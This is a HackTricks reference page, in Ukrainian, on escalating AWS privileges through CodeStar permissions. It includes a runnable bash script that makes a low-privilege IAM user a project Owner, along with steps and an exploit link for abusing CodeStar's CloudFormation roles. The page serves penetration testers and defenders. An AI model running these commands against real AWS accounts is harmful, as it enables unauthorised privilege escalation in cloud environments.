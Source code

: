 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

Ви можете знайти більше інформації про codestar у:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

З цими дозволами ви можете **зловживати роллю IAM codestar** для виконання **произвольних дій** через **шаблон cloudformation**. Перевірте наступну сторінку:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Ця техніка використовує `codestar:CreateProject` для створення проекту codestar, і `codestar:AssociateTeamMember` для того, щоб зробити користувача IAM **власником** нового проекту CodeStar, що надасть їм **нову політику з кількома додатковими дозволами**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Якщо ви вже є **учасником проекту**, ви можете використовувати дозвіл **`codestar:UpdateTeamMember`** для **оновлення вашої ролі** на власника замість `codestar:AssociateTeamMember`.

**Потенційний вплив:** Privesc до політики codestar, що генерується. Ви можете знайти приклад цієї політики в:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Створити новий проект:**
* Використовуйте дію **`codestar:CreateProjectFromTemplate`** для ініціювання створення нового проекту.
* Після успішного створення доступ автоматично надається для **`cloudformation:UpdateStack`**.
* Цей доступ специфічно націлений на стек, пов'язаний з роллю IAM `CodeStarWorker-<generic project name>-CloudFormation`.
2. **Оновити цільовий стек:**
* З наданими дозволами CloudFormation продовжте оновлення вказаного стеку.
* Ім'я стеку зазвичай відповідатиме одному з двох шаблонів:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* Точне ім'я залежить від вибраного шаблону (посилаючись на приклад експлойт-скрипта).
3. **Доступ і дозволи:**
* Після оновлення ви отримуєте можливості, призначені ролі **CloudFormation IAM**, пов'язаній зі стеком.
* Примітка: Це не надає автоматично повних адміністративних привілеїв. Додаткові неправильно налаштовані ресурси в середовищі можуть бути необхідні для подальшого підвищення привілеїв.

Для отримання додаткової інформації перегляньте оригінальне дослідження: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Ви можете знайти експлойт за адресою [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Потенційний вплив:** Privesc до ролі cloudformation IAM.

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
